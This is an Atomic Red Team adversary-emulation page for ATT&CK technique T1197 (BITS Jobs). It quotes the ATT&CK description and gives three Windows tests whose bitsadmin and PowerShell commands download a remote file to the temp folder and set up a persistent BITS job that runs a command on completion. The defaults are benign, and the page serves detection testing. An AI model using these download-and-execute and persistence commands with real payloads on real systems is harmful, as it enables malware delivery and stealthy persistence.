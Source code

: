 # T1197 - BITS Jobs

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1197)

<blockquote>Windows Background Intelligent Transfer Service (BITS) is a low-bandwidth, asynchronous file transfer mechanism exposed through Component Object Model (COM). (Citation: Microsoft COM) (Citation: Microsoft BITS) BITS is commonly used by updaters, messengers, and other applications preferred to operate in the background (using available idle bandwidth) without interrupting other networked applications. File transfer tasks are implemented as BITS jobs, which contain a queue of one or more file operations.

The interface to create and manage BITS jobs is accessible
through [PowerShell](https://attack.mitre.org/techniques/T1086)  (Citation: Microsoft BITS) and
the [BITSAdmin](https://attack.mitre.org/software/S0190) tool. (Citation: Microsoft BITSAdmin)

Adversaries may abuse BITS to download, execute, and even clean up after running malicious code. BITS tasks are
self-contained in the BITS job database, without new files or registry modifications, and often permitted by host
firewalls. (Citation: CTU BITS Malware June 2016) (Citation: Mondok Windows PiggyBack BITS May 2007) (Citation: Symantec
BITS May 2007) BITS enabled execution may also allow Persistence by creating long-standing jobs (the default maximum
lifetime is 90 days and extendable) or invoking an arbitrary program when a job completes or errors (including after
system reboots). (Citation: PaloAlto UBoatRAT Nov 2017) (Citation: CTU BITS Malware June 2016)

BITS upload functionalities can also be used to
perform [Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048). (Citation: CTU BITS Malware
June 2016)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Bitsadmin Download (cmd)](#atomic-test-1---bitsadmin-download-cmd)

- [Atomic Test #2 - Bitsadmin Download (PowerShell)](#atomic-test-2---bitsadmin-download-powershell)

- [Atomic Test #3 - Persist, Download, & Execute](#atomic-test-3---persist-download--execute)

<br/>

## Atomic Test #1 - Bitsadmin Download (cmd)

This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | %temp%&#92;bitsadmin_flag.ps1|

#### Attack Commands: Run with `command_prompt`!

```cmd
bitsadmin.exe /transfer /Download /priority Foreground #{remote_file} #{local_file}
```

#### Cleanup Commands:

```cmd
del #{local_file} >nul 2>&1
```

<br/>
<br/>

## Atomic Test #2 - Bitsadmin Download (PowerShell)

This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload leveraging PowerShell

Upon execution you will find a github markdown file downloaded to the Temp directory

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | $env:TEMP&#92;bitsadmin_flag.ps1|

#### Attack Commands: Run with `powershell`!

```powershell
Start-BitsTransfer -Priority foreground -Source #{remote_file} -Destination #{local_file}
```

#### Cleanup Commands:

```powershell
Remove-Item #{local_file} -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #3 - Persist, Download, & Execute

This test simulates an adversary leveraging bitsadmin.exe to schedule a BITS transfer
and execute a payload in multiple steps. This job will remain in the BITS queue for 90 days by default if not removed.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| bits_job_name | Name of BITS job | string | AtomicBITS|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | %temp%&#92;bitsadmin_flag.ps1|
| command_path | Path of command to execute | path | C:&#92;Windows&#92;system32&#92;notepad.exe|
| command_line | Command line to execute | string | %temp%&#92;bitsadmin_flag.ps1|

#### Attack Commands: Run with `command_prompt`!

```cmd
bitsadmin.exe /create #{bits_job_name}
bitsadmin.exe /addfile #{bits_job_name} #{remote_file} #{local_file}
bitsadmin.exe /setnotifycmdline #{bits_job_name} #{command_path} #{command_line}
bitsadmin.exe /complete AtomicBITS
bitsadmin.exe /resume #{bits_job_name}
```

<br/>
